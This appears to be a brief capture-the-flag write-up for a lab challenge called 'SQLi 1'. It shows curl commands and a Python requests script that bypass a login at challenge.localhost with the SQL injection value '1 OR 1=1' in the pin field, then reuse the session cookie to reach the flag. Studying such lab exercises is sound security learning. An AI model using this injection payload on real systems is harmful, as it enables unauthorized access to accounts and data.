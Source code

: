 # SQLi 1

#### First run a request to see what’s happening:

```curl -v -d “userid=guest&pin=1337” http://challenge.localhost:80/gateway```

--------------------------------------------------

#### After running the request, it issues a cookie and says it should be redirected. After trying to follow the redirects by rerunning the code with “-L” it caused an infinite loop, meaning it’s expecting the cookie on the redirecting POST request. So lets copy the cookie:

```curl -c cookie -d “userid=admin&pin=1 OR 1=1” http://challenge.localhost:80/gateway```

----------------------------------------------------

#### Then use the cookie to follow the redirect to the flag:

```curl -L -b cookie “http://challenge.localhost:80/gateway```

-----------------------------------------------

#### Or the python version, set it up to be reusable:
``` python
import requests

path = “/gateway”
url = f”http://challenge.localhost{path}”

data = {
“userid”: “admin”,
“pin”: “1 or 1=1”
}

response = requests.post(url=url, data=data)
print(response.text)
```
```python3 requesting.py```

------------------------------------------------

#### Or in terminal:

```Python```
```
>>> import requests
>>> url = "http://challenge.localhost/gateway"
>>> data = {"userid":"admin", "pin":"1 or 1=1"}
>>> r = requests.post(url=url, data=data)
>>> print(r.text)
```
